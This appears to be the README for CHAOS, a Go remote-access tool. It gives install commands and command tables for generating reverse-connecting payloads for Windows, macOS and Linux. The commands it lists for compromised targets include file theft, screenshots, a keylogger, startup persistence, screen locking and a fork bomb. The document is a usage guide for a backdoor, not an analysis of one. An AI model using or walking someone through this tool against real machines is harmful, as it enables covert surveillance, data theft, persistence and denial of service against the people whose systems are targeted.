 ## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

## How to Install
```bash
# Install dependencies
$ sudo apt install golang git go-dep -y

# Get this repository
$ go get github.com/tiagorlampert/CHAOS

# Go into the repository
$ cd ~/go/src/github.com/tiagorlampert/CHAOS

# Get project dependencies
$ dep ensure

# Run
$ go run main.go
```

## How to Use

Command     | On HOST does...
:-----      |:-----
`generate`  |Generate a payload (e.g. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |Specify a ip for connection
`lport=`    |Specify a port for connection
`fname=`    |Specify a filename to output
`--windows` |Target Windows
`--macos`   |Target Mac OS
`--linux`   |Target Linux
`listen`    |Listen for a new connection (e.g. `listen lport=8080`)
`serve`     |Serve files
`exit`      |Quit this program

Command                 | On TARGET does...
:-----                  |:-----
`download`              |File Download
`upload`                |File Upload
`screenshot`            |Take a Screenshot
`keylogger_start`       |Start Keylogger session
`keylogger_show`        |Show Keylogger session logs
`persistence_enable`    |Install at Startup
`persistence_disable`   |Remove from Startup
`getos`                 |Get OS name
`lockscreen`            |Lock the OS screen
`openurl`               |Open the URL informed
`bomb`                  |Run Fork Bomb
`clear`                 |Clear the Screen
`back`                  |Close connection but keep running on target
`exit`                  |Close connection and exit on target
